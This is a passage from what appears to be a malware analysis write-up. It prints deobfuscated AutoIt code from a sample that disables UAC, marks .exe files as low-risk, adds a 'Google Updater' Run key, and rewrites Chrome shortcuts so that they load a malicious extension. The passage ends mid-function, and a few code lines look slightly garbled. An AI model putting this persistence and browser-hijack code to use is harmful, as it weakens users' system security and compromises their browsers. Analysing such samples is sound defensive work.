 ```autoit

FUNC InstallRegisterRun()
  GLOBAL $RegWrite_=EXECUTE(RegWrite)
  $RegWrite_("HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Associations","LowRiskFileTypes","REG_SZ",".exe")
  $RegWrite_("HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Associations","LowRiskFileType","REG_SZ",".exe")
  $RegWrite_("HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System","EnableLUA","REG_DWORD",0)
  $RegWrite_("HKLM\Software\Microsoft\Windows\CurrentVersion\Run","Google Updater","REG_SZ",$TargetPath_&"\app.exe")
  ShellExecuteComand()
ENDFUNC

FUNC ShellExecuteComand()
  GLOBAL $SW_MAXIMIZE=EXECUTE($SW_MAXIMIZE)
  GLOBAL $ShellExecute_=EXECUTE("ShellExecute")
  $ShellExecute_(chrome.exe, --enable-automation --restore-last-session --disable-infobars --load-extension=&$TargetPath_,"","",$SW_MAXIMIZE)
  InstallHook()
  RunApp()
ENDFUNC
```

After finishing the registration process of the extension, the sample changes all the direct access to Google Chrome in order to load the new extension when the process is launched:

```autoit
FUNC InstallHook()
  GLOBAL $@AppDataCommonDir_=EXECUTE("@AppDataCommonDir")
  GLOBAL $@ProgramsCommonDir_=EXECUTE("@ProgramsCommonDir")
  GLOBAL $@DesktopCommonDir_=EXECUTE("@DesktopCommonDir")
  GLOBAL $@DesktopDir_=EXECUTE("@DesktopDir")
  LOCAL $EGEIAUJNVUO[5]=[$AppDataDir_&"\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar",$@DesktopDir_,$@AppDataCommonDir_&"\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar",$@ProgramsCommonDir_,$@DesktopCommonDir_]
  FOR $i=0 TO 4
    SearchAndRemplaceShortcut($EGEIAUJNVUO[$i])
  NEXT
ENDFUNC

FUNC SearchAndRemplaceShortcut($Paht)
  LOCAL $Paht_link=FindAllFilesReg($Paht,"*.lnk")
  IF @ERROR=0/691 THEN
    $KVOZLDMV=UBOUND($Paht_link,0)
    $KVOZLDMV=$KVOZLDMV-(1)
    FOR $i=0 TO $KVOZLDMV
      SearchAndCreateHook($Paht&"\"&$Paht_link[$i])
    NEXT
  ENDIF
ENDFUNC

FUNC SearchAndCreateHook($File)
  GLOBAL $FileGetShortcut_=EXECUTE("FileGetShortcut")
  $FileShortcut=$FileGetShortcut_($File)
  IF NOT @ERROR THEN
    $SplitAndFindResult=SplitAndFind($FileShortcut[0],"","","","")
    IF $SplitAndFindResult[3]="chrome"THEN
      CreateHook($FileShortcut,$File)
    ENDIF
  ENDIF
ENDFUNC

FUNC CreateHook($FileShortcut,$File)
```